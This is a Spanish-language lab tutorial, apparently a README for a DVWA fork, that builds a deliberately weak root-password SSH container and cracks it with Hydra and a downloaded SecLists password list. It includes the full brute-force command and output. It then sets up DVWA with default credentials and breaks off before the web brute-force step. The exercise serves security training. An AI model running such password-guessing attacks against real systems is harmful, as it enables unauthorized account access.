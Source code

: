 About

Damn Vulnerable Web Application (DVWA) is a PHP/MySQL web application that is damn vulnerable. Its main goals are to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and aid teachers/students to teach/learn web application security in a class room environment

Project Home: https://github.com/digininja/DVWA

PRIMERA PARTE
===============================================================
1

Si usa https://labs.play-with-docker.com/ se recomienda usar 

docker login -u username -p password
git clone https://github.com/cesarbobadilla/dvwa.git
cd dvwa  
git checkout BruteForce

2

En la carpeta SSH, usamos el archivo Dockerfile, luego 

docker build -t alpine-ssh SSH/.

docker run --rm --publish=2222:22 alpine-ssh

3

Desde otra instancia podemos probar el acceso 

ssh root@host -p 2222   por ejemplo ( ssh root@192.168.0.6 -p 2222 )

Ponemos el password: computer (que se configuro en el ejemplo, especificamente en el Dockerfile)

4

Ahora en otra instancia, usamos lo que hay en la carpeta HYDRA, usamos el archivo Dockerfile, luego

git clone https://github.com/cesarbobadilla/dvwa.git
cd dvwa  
git checkout BruteForce
docker build -t kali-hydra HYDRA/.
docker run -it kali-hydra /bin/bash 

Una vez que estamos en la shell del contenedor, descargamos un diccionario de contraseñas de 10000 posibilidades

curl https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top10000.txt > passlist.txt

Y ahora ejecutamos Hydra para que adivine la contraseña configurada, dandole previamente el usuario root y de referencia el diccionario descargado passlist.txt. En el ejemplo consideramos que el ssh esta corriendo en la 192.168.0.6

hydra -s 2222 -l root -P passlist.txt 192.168.0.6 -t 4 -V ssh 

Debería seguir ejecutando hasta que vea algo como

...

..

.

[ATTEMPT] target 192.168.0.17 - login "root" - pass "159753" - 55 of 9999 [child 0] (0/0)

[ATTEMPT] target 192.168.0.17 - login "root" - pass "iloveyou1" - 56 of 9999 [child 2] (0/0)

[2222][ssh] host: 192.168.0.17   login: root   password: computer

1 of 1 target successfully completed, 1 valid password found

Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-30 15:54:40


Donde concluimos que la contraseña adivinada es "computer"

Levantamos otra instancia donde ejecutamos el proyecto de DVWA

git clone https://github.com/cytopia/docker-dvwa.git
cd docker-dvwa/
make start

Una vez concluido esto debemos ver algo como

...
..
.
$ make start

+] Running 4/4
 ✔ Network docker-dvwa_dvwa-net       Created                                                                       0.0s 
 ✔ Volume "docker-dvwa_dvwa_db_data"  Created                                                                       0.0s 
 ✔ Container docker-dvwa-dvwa_web-1   Started                                                                       0.1s 
 ✔ Container docker-dvwa-dvwa_db-1    Started                                                                       0.1s 
docker-compose logs dvwa_web 2>&1 | grep "Setting"
docker-dvwa-dvwa_web-1  | Setting PHP version:        PHP 8.1.16 (cli) (built: Mar  1 2023 12:38:41) (NTS)
docker-dvwa-dvwa_web-1  | Setting MySQL hostname:     dvwa_db
docker-dvwa-dvwa_web-1  | Setting MySQL database:     dvwa
docker-dvwa-dvwa_web-1  | Setting MySQL username:     dvwa
docker-dvwa-dvwa_web-1  | Setting MySQL password:     ********
docker-dvwa-dvwa_web-1  | Setting Recaptcha priv key: 
docker-dvwa-dvwa_web-1  | Setting Recaptcha pub key:  
docker-dvwa-dvwa_web-1  | Setting Security level:     medium
docker-dvwa-dvwa_web-1  | Setting PHP error display:  0
docker-dvwa-dvwa_web-1  | Setting PHP IDS state:      disabled
docker-dvwa-dvwa_web-1  | Setting PHP IDS verbosity:  false

 Y el proyecto estará ejecutando en el puerto 8000, en login.php, ingresamos con usuario admin y password admin, esto nos llevará a setup.php donde configuramos el proyecto presionando el boton  "Create/Reset Database" al final de la página, al final de la página aparecerá algo como:

 ...
 ..
 .
Database has been created.
'users' table was created.
Data inserted into 'users' table.
'guestbook' table was created.
Data inserted into 'guestbook' table.
Backup file /config/config.inc.php.bak automatically created
Setup successful!
Please login.

Damos click al link de login que estará resltado en verde, en usuario colocamos admin y en password colocamos password, esto nos llevará a index.php

ahí, vamos al las opciones finales y elegimos el boton de "DVWA Security" y elegimos el nivel "Low" y damos click al boton Submit, despuès vamos al boton de Brute Force y estamos listos para iniciar el ataque con hydra, 

regresamos a la instancia donde se encuentra Hydra y 









 




